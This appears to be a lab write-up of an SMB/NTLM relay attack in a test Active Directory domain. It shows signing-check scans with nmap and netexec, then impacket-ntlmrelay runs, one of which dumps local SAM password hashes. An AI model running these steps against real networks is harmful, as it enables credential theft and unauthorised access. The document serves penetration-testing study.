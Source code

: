 # SMB Relay Attack

<div class="hidden">
    keywords: active directory, smb, NTLM relay
</div>

## Infrastructure

- dc01: 10.10.1.200
- ws01: 10.10.1.201
- ws02: 10.10.1.202
- attacker: 10.10.1.102

## Pre-requisite

### SMB Signing

- using `nmap`
    ```console
    $ nmap -vvv -p 445 -Pn --script smb2-security-mode.nse -oA nmap/smb 10.10.1.200 10.10.1.201 10.10.1.202
    # Nmap 7.93 scan initiated Fri Dec 15 16:11:55 2023 as: nmap -vvv -p 445 -Pn --script smb2-security-mode.nse -oA nmap/smb 10.10.1.200 10.10.1.201 10.10.1.202
    Nmap scan report for dc01 (10.10.1.200)
    Host is up, received user-set (0.0011s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled and required

    Nmap scan report for ws01 (10.10.1.201)
    Host is up, received user-set (0.00090s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled but not required

    Nmap scan report for ws02 (10.10.1.202)
    Host is up, received user-set (0.00096s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled but not required

    Read data files from: /usr/bin/../share/nmap
    # Nmap done at Fri Dec 15 16:11:59 2023 -- 3 IP addresses (3 hosts up) scanned in 3.61 seconds
    ```

    - Domain controller has `Message signing enabled and required`
    - Both workstations have `Message signing enabled but not required` (vulnerable to SMB relay attack)

- using `netexec`
    ```console
    $ netexec smb 10.10.1.200 10.10.1.201 10.10.1.202 --gen-relay-list smb-signing-false.txt
    SMB         10.10.1.201     445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:oscp.lab) (signing:False) (SMBv1:False)
    SMB         10.10.1.202     445    WS02             [*] Windows 10.0 Build 17763 x64 (name:WS02) (domain:oscp.lab) (signing:False) (SMBv1:False)
    SMB         10.10.1.200     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:oscp.lab) (signing:True) (SMBv1:False)
    ```

    - Domain controller has `signing:True`
    - Both workstations have `signing:False` (vulnerable to SMB relay attack)

### Administrator Privilege

When relaying to target machine `X` from machine `Y` as a user `domain\john`,
the user needs to have administrator privilege on the target machine `X` for
this attack to work.

In the setup environment, `oscp\alice` is in the `Administrators` group on
both `ws01` and `ws02`. Thus, we could relay from anywhere (except for the
target machine itself) to either `ws01` or `ws02` as `oscp\alice`. On the
other hand, `oscp\bob` only has admin privilege on `ws02`. Hence, we could
only relay from anywhere (`dc01`, `ws01`) to `ws02` as `oscp\bob`.

## Example

> [!NOTE]
> If impacket is installed on a virtual environment and needs to execute with `sudo`
> ~~~sh
> sudo --preserve-env=PATH env impacket-ntlmrelay ...
> ~~~

### Relaying from `ws01` to `ws02` as `oscp\alice` (Succeed)

#### Attacker

```console
$ impacket-ntlmrelay -t 10.10.1.202 -smb2support
[...]

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.1.201, attacking target smb://10.10.1.202
[*] Authenticating against smb://10.10.1.202 as OSCP/ALICE SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x056273c5da163bf69d211acdca6423fc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5f91be10619e258821be997884b135f7:::
bob:1002:aad3b435b51404eeaad3b435b51404ee:217e50203a5aba59cefa863c724bf61b:::
[*] Done dumping SAM hashes for host: 10.10.1.202
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

#### Victim

```console
C:\Users\Public> hostname
ws01

C:\Users\Public> net use \\10.10.1.102 /user:oscp\alice Passw0rd!
```

### Relaying from `ws02` to `ws01` as `oscp\bob` (Failed)

#### Attacker

```console
$ impacket-ntlmrelay -t 10.10.1.201 -smb2support
[...]

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.1.202, attacking target smb://10.10.1.201
[*] Authenticating against smb://10.10.1.201 as OSCP/BOB SUCCEED
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

#### Victim

```console
C:\Users\Public> hostname
ws02

C:\Users\Public> net use \\10.10.1.102 /user:oscp\bob Passw0rd!
```
